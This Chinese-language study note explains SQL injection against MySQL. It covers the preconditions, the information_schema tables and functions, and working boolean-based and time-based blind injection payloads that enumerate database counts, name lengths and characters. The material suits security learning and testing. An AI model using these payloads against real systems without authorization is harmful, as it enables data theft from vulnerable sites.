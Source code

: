 SQL注入漏洞的产生条件：

* 参数用户可控：前端传给后端的参数内容是用户可以控制的
* 参数代入数据库查询：传入的参数拼接到SQl语句，且带入数据库查询

MYSQL中的三个表名：

* SCHEMATA表存储用户创建的所有数据库的库名，数据库库名的字段名为SCHEMA_NAME,
* TABLES表存储该用户创建的所有数据库的库名和表名，该表中记录数据库库名和表名的字段名为TABLE_SCHEMA和TABLE_NAME
* COLUMNS表存储该用户创建的所有数据库的库名、表名和字段名，数据库库名为TABLE_SCHEMA,表名的字段名为TABLE_NAME,字段名的字段名为COLUMN_NAME

database():当前网站使用的数据库

version():当前MySQL的版本

user():当前MySQL的用户

时间盲注：**布尔型盲注：**

```
1.布尔盲注利用前提
页面没有显示位，没有输出SQL语句执行错误信息，只能通过页面返回正常不正常来判断是否存在注入。
2.布尔盲注利用    
该语句判断数据库个数，当数据库个数大于n页面显示正常
(select count(schema_name) from information_schema.schemata)> n

该语句判断数据库内第一个数据库名有多少字符，字符个数大于n页面显示正常
(select length(schema_name) from information_schema.schemata limit 0,1)> n

该语句判断第一个库第一个字符是什么，ascii值大于n页面显示正常
(select ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1)))>n

相关函数学习
Length() 返回字符串的长度
substr() 截取字符串，偏移是从1开始，而不是0开始
ascii() 返回字符的ascii码
count(column_name) 返回指定列的值的数目(NULL 不计入)
```

**时间型盲注：**

```
1.时间盲注利用前提
页面上没有显示位，也没有输出SQL语句执行错误信息。 正确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条件之后，页面的返回速度明显慢了5秒。
2.时间盲注利用
该语句判断数据库个数，当数据库个数等于n页面返回延迟5秒
if((select count(schema_name) from information_schema.schemata)=n,sleep(5),1)

该语句判断数据库内第一个数据库名有多少字符，字符个数等于n页面返回延迟5秒
if((select length(schema_name) from information_schema.schemata limit 0,1)=n,sleep(5),1)

该语句判断第一个库第一个字符是什么，ascii值等于n页面返回延迟5秒
if((select ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1)))=n,sleep(5),1)

相关函数学习
Length（）函数 返回字符串的长度
substr（）截取字符串
ascii（）返回字符的ascii码
sleep(n)：将程序挂起一段时间 n为n秒
if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
count(column_name)函数返回指定列的值的数目(NULL 不计入)
```